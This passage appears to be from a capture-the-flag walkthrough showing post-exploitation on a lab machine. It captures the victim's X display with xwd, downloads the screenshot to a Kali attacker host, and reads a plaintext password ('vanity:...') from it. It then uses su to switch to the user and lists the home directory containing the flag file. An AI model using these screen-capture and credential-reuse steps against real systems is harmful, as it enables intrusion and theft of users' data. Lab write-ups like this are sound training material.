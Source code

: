 `xwd -root -screen -silent -display :0 > ./screenshot.xwd`

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`download /tmp/screenshot.xwd /home/kali/screenshot.xwd`:
```
/tmp/screenshot.xwd ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 3.1/3.1 MB • 5.0 MB/s • 0:00:00
[18:56:36] downloaded 3.15MiB in 0.85 seconds ←
```

`cd /home/kali`

`convert ./screenshot.xwd ./screenshot.png`

```
vanity:xd0oITR93KIQDbiD ←
```

`su vanity`:
```
Password: ←
```

![Victim: vanity](https://img.shields.io/badge/Victim-vanity-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
vanity ←
```

`id`:
```
uid=1000(vanity) gid=1000(vanity) groups=1000(vanity),100(users)
```

`cd /home/vanity`

`ls -alps ./`:
```
total 76
4 drwxr-xr-x 10 vanity vanity 4096 Oct  9 11:26 ./
4 drwxr-xr-x  3 root   root   4096 Jul 28 12:27 ../
4 -rwxr-xr-x  1 vanity vanity  557 Jul 29 15:44 backup
0 lrwxrwxrwx  1 root   root      9 Jul 26 18:04 .bash_history -> /dev/null
4 -rw-r--r--  1 vanity vanity  220 Jul 29 13:48 .bash_logout
4 -rw-r--r--  1 vanity vanity 3526 Jul 29 13:48 .bashrc
4 drwxr-xr-x  7 vanity vanity 4096 Jul 29 13:48 .cache/
4 drwx------ 13 vanity vanity 4096 Jul 29 15:47 .config/
4 drwx------  2 vanity vanity 4096 Jul 29 13:48 creds/
4 drwxr-xr-x  2 vanity vanity 4096 Jul 29 13:48 Desktop/
4 -rw-r--r--  1 vanity vanity   35 Jul 29 13:48 .dmrc
4 drwxr-xr-x  2 vanity vanity 4096 Jul 29 13:48 Documents/
4 drwxr-xr-x  2 vanity vanity 4096 Jul 29 13:48 Images/
4 -rw-------  1 vanity vanity   36 Jul 29 13:48 .lesshst
4 drwxr-xr-x  3 vanity vanity 4096 Jul 29 13:48 .local/
4 -rw-r--r--  1 vanity vanity  807 Jul 29 13:48 .profile
4 drwx------  2 vanity vanity 4096 Jul 29 14:40 .ssh/
4 -rwx------  1 vanity vanity   33 Jul 29 13:48 user.txt ←
4 -rw-------  1 vanity vanity  158 Oct  9 11:25 .Xauthority
4 -rw-r--r--  1 vanity vanity    8 Jul 29 13:48 .xprofile
```
